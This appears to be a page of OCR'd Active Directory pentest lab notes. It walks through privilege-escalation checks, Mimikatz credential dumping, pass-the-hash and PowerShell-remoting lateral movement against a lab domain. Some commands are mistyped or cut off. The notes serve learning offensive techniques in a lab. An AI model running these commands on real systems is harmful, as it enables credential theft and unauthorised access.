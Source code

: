 ```bash
 Restart-Service "ServiceName" -Verbose. Next, check if youre a local admin


```

## Find WMILocalAdministrator.ps1

```bash

**Invoke-AllChecks -Verbose**  script runs several security checks, which might include things like finding clear-text passwords in memory, identifying weak or insecure configurations, testing for privilege escalation paths, and more.
```
## Credential Dumping

```bash
Download and run **Invoke-Mimikatz.ps1** in cmd to load scripts.

**Invoke-Mimikatz -DumpCreds -Verbose -** Dumps all credentials of domain and local users on the system. But you need admin privilege before you can run this commands./code

**Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:cyberwarfare.corp/hash: 
/run:powershell.exe" - Used the hash of the admin user to execute the powershell command.**
```

## Find-WMILocalAdminAccess.ps1

```bash
This script can be ran to check if we have admin access to the domain controller or 
application server.
. . /Find-WMILocalAdminAccess
Then run Find-WMILocalAdminAccess -Verbose
```

## LATERAL MOVEMENT

**Poweshell Remoting** uses WinRM and runs on 5985(Http) and 5986(Https). Comes by default on windows server 2012. 

Adversaries use these ports to connect to remote servers and execute commands upon Higher privilege.

Configuration: “**Enable-PSRemoting -SkipNetworkProfileCheck -Verbose -Force**” as an administrator.

```powershell
After checking which user has admin privilege over the domain controller or application
server and we've opened a powershell session with the privilege. 
Next thing we can do is to open a session on the app-server.

$session = NewPSSession -ComputerName app-server -Verbose.
then run $session and the state should be opened

Invoke-Command -Session $session -ScriptBlock {whoami;ipconfig} -Verbose - This command 
executes the whoami and ipconfig command on the app-server session(other words, on the 
application server).

Enter-PSSession -Session $session -Verbose. - To enter the app-server through the session
Type whoami to confirm that we are now in the app-server as the emp_svc user.
Type hostname to see that we are in the APP-SERVER.

net user to see the local users on the app-server
klist to list all kerberos tickets.

```